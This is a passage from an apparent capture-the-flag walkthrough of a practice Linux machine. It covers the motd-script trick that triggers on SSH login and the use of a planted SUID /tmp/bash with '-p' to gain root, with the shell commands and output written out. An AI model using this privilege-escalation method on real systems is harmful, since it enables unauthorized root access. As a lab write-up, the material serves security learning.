 ```d
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
```

But how does this execute? Is there a cron? don’t think so.

Since, the .bash\_history shows we need to ssh for the instructions to execute, let’s try and SSH as james.

![](https://umar0x01.sh/img/debug-thm/Pasted%20image%2020210403150745.png)

#### Root! <a id="root"></a>

Cool, we’ve got SUID bit of root user on the bash file, let’s get root! :\)

```d
james@osboxes:~$ /tmp/bash  -p
bash-4.3# id
uid=1001(james) gid=1001(james) euid=0(root) groups=1001(james)
bash-4.3# cd /root
bash-4.3# ls -al 
total 48
drwx------  7 root root 4096 Mar 10 18:36 .
drwxr-xr-x 24 root root 4096 Feb 28  2019 ..
-rw-------  1 root root 1257 Mar 10 18:38 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  3 root root 4096 Mar  9 20:01 .bundle
drwx------  2 root root 4096 Mar 10 18:36 .cache
drwxr-xr-x  3 root root 4096 Mar  9 20:00 .gem
drwxr-xr-x  2 root root 4096 Mar 10 18:35 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Mar  9 20:56 root.txt
drwx------  2 root root 4096 Mar  9 20:55 .ssh
-rw-r--r--  1 root root  211 Mar  9 19:59 .wget-hsts
bash-4.3# 
bash-4.3# 
```

The flag is of the characters what we need!

```d
bash-4.3# wc -c root.txt 
33 root.txt
bash-4.3# id
uid=1001(james) gid=1001(james) euid=0(root) groups=1001(james)
bash-4.3# uname -a 
Linux osboxes 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

Thanks for reading the walkthrough, hopefully you enjoyed it. I think maybe I was too verbose while writing it :P  


